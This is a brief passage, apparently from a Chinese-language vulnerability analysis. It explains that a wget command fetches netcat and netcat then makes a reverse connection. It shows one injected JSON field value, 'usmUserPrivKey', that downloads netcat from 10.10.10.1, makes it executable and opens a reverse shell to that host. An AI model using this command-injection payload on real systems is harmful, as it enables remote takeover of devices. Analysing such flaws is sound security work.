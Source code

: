 
我们先命令执行一个 wget 命令，拉取一个 netcat，然后再用 netcat 进行反向连接即可
```python
"usmUserPrivKey":"123;cd /;wget http://10.10.10.1:88/netcat;chmod 777 netcat;./netcat 10.10.10.1 12345 -e sh;",
```
![Vulnerability_analysis12](../images/Vulnerability_analysis12.png)

